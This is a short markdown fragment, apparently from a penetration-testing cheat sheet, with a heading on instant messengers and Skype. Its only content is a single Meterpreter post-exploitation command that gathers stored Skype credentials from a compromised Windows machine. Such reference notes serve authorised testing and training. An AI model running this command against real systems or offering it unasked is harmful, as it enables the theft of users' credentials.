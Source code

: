 # Instant Messengers

## 01 - Skype

### 1.1 - Metasploit

```
meterpreter > run post/windows/gather/credentials/skype
```